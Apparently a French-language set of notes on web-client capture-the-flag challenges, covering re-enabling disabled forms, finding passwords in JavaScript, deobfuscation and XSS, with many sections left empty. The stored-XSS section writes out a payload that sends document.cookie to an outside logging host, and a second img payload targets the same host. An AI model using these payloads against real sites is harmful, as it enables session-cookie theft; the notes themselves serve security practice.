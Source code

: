 ## Web Client - Hacking

1 : Activer un form qui est désactivé par défaut en HTML
--------------------------------------------------------

Console
::

   var input = document.body.getElementsByTagName("input");
   for(i=0; i<input.length; i++)
   {
      if( typeof(input[i]) != 'undefined' )
          input[i].disabled = false;
   }


Morale : Le HTML peut être modifié et détourné

2. Javascript authentification
--------------------------
::

   Chercher dans les outils de développeurs, le script de login.js

Morale : Les fichiers Js peuvent être visible et leurs informations sensibles, dans F12->application->Frame->Script

3. Javascript source ( même astuce que précédemment )
--------------------------

4. Javascript authentification 2  ( même astuce que précédemment )
--------------------------

5. Javascript - obfuscation 1
--------------------------

   1. Chercher le fichier JS
   2. Trouver la chaine password
   3. passer la chaine dans la fonction

5. Javascript - obfuscation 2
--------------------------

   1. Chercher le pass dans js
   2. prendre la partie exadécimale du pass
   3. unescape('%28104%2C68%2C117%2C102%2C106%2C100%2C107%2C105%2C49%2C53%2C54%29');
   4. console.log(String.fromCharCode(104,68,117,102,106,100,107,105,49,53,54));

6. Javascript - native code
--------------------------

   1. Trouver le code pass natif
   2. Tostring sur le code native ( en enlevant les dernières parentheses pour enlever le mode function du code natif.

7. Javascript - webpack
--------------------------

   1. Chercher le flag dans les sources webpack


8. Javascript - Obfuscation 3
--------------------------------


8. XSS - stockée 1
--------------------------------

savoir si un formulaire permet l'éxécution de code :
::

   <script>console.warn('code executed');</script>

::

   <script>alert('code executed');</script>


Injection de HTML ( et <script> ) dans un form non sécurisé, pour recuperer un cookie sur un hooker a cookie ( avec mdp,..)
::

   <script>window.location="https://sacha.free.beeceptor.com?cookie="+document.cookie</script>


9. CSP Bypass - Inline code
----------------------------

10. CSRF - 0 protection
----------------------------


11. Flash - Authentification
----------------------------

12. CSP Bypass - Dangling markup
----------------------------


13. CSP Bypass - JSONP
----------------------------

14. CSRF - contournement de jeton
----------------------------

15. XSS - Volatile
----------------------------

essai:
Jouer avec l'URL, et le document cookie à envoyer sur un hooker de cookie
::


   <img src="https://sacha.free.beeceptor.com" onload=(alert('error'); >

16. CSP Bypass - Dangling markup 2
----------------------------

17. Javascript - Obfuscation 4
----------------------------

18. XSS - Stockée 2
----------------------------

19. HTTP Response Splitting
----------------------------

20. Javascript - Obfuscation 5
----------------------------

21. XSS - Stored - contournement de filtres
----------------------------

22. XSS - DOM Based
----------------------------
